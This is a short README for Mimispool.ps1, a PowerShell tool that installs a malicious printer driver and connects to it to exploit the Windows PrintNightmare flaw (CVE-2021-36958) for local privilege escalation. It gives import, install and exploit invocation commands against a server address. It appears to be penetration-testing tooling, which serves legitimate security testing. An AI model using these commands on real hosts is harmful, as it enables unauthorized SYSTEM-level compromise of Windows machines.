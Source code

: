 # Mimispool.ps1

Just a very small script to install, uninstall or connect to gentilwiki's Mimispool printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation. Tested on a fully up-to-date Windows 10 Enterprise Evaluation VM.

Requires admin privileges on the host you want to install the printer on.

## Usage

### Import the Module

```powershell
. .\Mimispool.ps1
```

### Install Printer

```powershell
Install-KiwiPrinter
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```

![Proof of Concept](img/poc.png)
